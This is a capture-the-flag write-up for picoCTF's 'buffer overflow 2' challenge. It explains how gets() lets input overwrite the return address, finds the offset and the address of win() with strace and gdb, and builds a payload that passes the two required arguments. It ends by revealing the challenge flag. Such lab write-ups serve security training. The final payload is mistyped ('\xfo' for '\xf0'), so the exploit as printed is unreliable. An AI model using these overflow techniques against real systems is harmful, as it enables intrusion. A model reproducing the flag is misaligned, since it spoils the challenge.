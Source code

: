 
# buffer overflow 2

*Medium*

>### Description
>Control the return address and arguments
>This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/142/vuln)?
>You can view source [here](https://artifacts.picoctf.net/c/142/vuln.c). And connect with it using:
>```
>nc saturn.picoctf.net 62596
>```

### Solution

The program asks for user input, and prints the output back to the user using "puts()". Then it returns the function. When we look at the source code, we can see a win function we want to run with arguments 0xCAFEF00D, and 0xF00DF00D. It ask for our input with "gets()", which is unsafe.

To test out our payloads I run the given binary with:
```sh
strace ./vuln
```
This allows us to see a lot of info about what is happening behind the scenes. Input a very large string that exceeds 100 characters. We find, by looking at the address the program is calling as return address, that the offset to inject a return address is 112. The address of "win" is 0x08049296. So the first part of our payload is:
```
aaa0bbb1ccc2ddd3eee4fff5ggg6hhh7aaa0bbb1ccc2ddd3eee4fff5ggg6hhh7aaa0bbb1ccc2ddd3eee4fff5ggg6hhh7aaa0bbb1ccc2ddd3\x96\x92\x04\x08
```
This runs the "win()" function.

We can see that is compares the first and second argument parsed in the function, to check if they are correct.

```assembly
cmpl   $0xcafef00d,0x8(%ebp)
cmpl   $0xf00df00d,0xc(%ebp)
```

So in gdb, simply find the address of the base pointer with "x $bp", and look at the offset from the end of our current payload. This is only 4. So, just simply add 0xcafef00d and 0xf00df00d as little endian to the payload (after 4 characters), to get this final payload:

```
aaa0bbb1ccc2ddd3eee4fff5ggg6hhh7aaa0bbb1ccc2ddd3eee4fff5ggg6hhh7aaa0bbb1ccc2ddd3eee4fff5ggg6hhh7aaa0bbb1ccc2ddd3\x96\x92\x04\x08aaa0\x0d\xfo\xfe\xca\x0d\xfo\x0d\xfo
```

>I from now on probably will use a file as input to the netcat program. Because I can input it in gdb with "r < payload", and to netcat with "echo -e "$(\<payload)" | nc ..." .

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{argum3nt5_4_d4yZ_59cd5643}
</details>
